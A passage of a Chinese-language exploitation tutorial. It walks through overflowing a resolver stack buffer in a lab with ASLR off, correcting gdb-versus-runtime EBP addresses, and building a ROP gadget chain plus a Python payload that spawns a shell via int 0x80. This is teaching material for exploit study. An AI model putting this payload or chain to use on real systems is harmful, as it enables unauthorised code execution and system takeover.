 <font color="red"> 时刻注意，gdb 中观察到的地址，和程序实际运行地址不一样，gdb调试时，EBP：0xbfffe9c8</font>

不覆盖 host_buf 到 EBP 之间的变量
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1f3af7s7jskj30k20bjdh9.jpg)

gdb 调试，查看变量值
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f3afbx7cugj30jp0d9gnj.jpg)

同时可以看到，ans2p_malloced 为0，只执行一次 free，因为 host_buffer.buf指向堆空间，可以正常释放，因此不会出错。

经过反复试验，只用覆盖 EBP 之前的三个变量，因此 data 构造为
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f3afhx6l76j30k40c6abh.jpg)
<font color="red"> 一定要注意，EBP 换成 0xbfffef58，而不是在 gdb 中看到的 0xbfffef08，不然会出段错。时刻注意 gdb 中的地址和程序实际运行地址不一样</font>
转换方法
gdb中 &EBP：0xbfffe9cc  EBP：0xbfffef08
实际运行 &EBP：0xbfffea1c   ，根据相对位置不变，可得出 EBP = &EBP + (&EBP - EBP) = 0xbfffef58

# Ⅴ、构造 shellcode
构造 shellcode 不是本教程重点，关于如果构造 ROP shellcode，请参考我的博客 [ROP exploit 编写](http://huirong.github.io/2016/03/11/ROP-exploit/)。

shellcode 功能：执行 system("/bin/shell")
gadgets:
```
pop ecx;pop eax;ret
/bin
@.data
mov [eax] ecx;ret
pop ecx;pop eax;ret
@.data + 4
mov [eax] ecx;ret
xor eax eax;ret
pop ecx;ret
@.data + 8
mov [ecx] eax;ret
pop ecx;pop edx;ret
@.data + 8
@.data + 8
pop ebx;ret
@.data
add eax 0xb;ret
int 0x80;ret
```

根据之间的教程，查找对应 gadget 的实际地址。由于关闭了 ASLR，不同机器，实际地址可能不一样，我建议大家自己查找，也可加强 ROP shellcode 理解。
构造好的 data
```
      data = ''
      data += dw(id2)
      data += 'B' * (2106)
      data += dw(0)                           # &ans2p_malloced
      data += dw(0)
      data += 'B' * (8)
      data += struct.pack('<I',0xbfffe1b0)    #ans2p
      data += struct.pack('<I',0x0804c3a8)    #host_buffer.buf
      data += 'B' * (12)
      data += struct.pack('<I',0xb7fd3000)
      data += struct.pack('<I',0xb7e23301)
      data += struct.pack('<I',0x00000420)
      data += struct.pack('<I',0xbfffef58)   # ebp
      data += struct.pack('<I',0xb7f183e0)    #pop ecx;pop eax;ret
      data += '/bin'
      data += struct.pack('<I', 0x0804a018)   # @ .data
```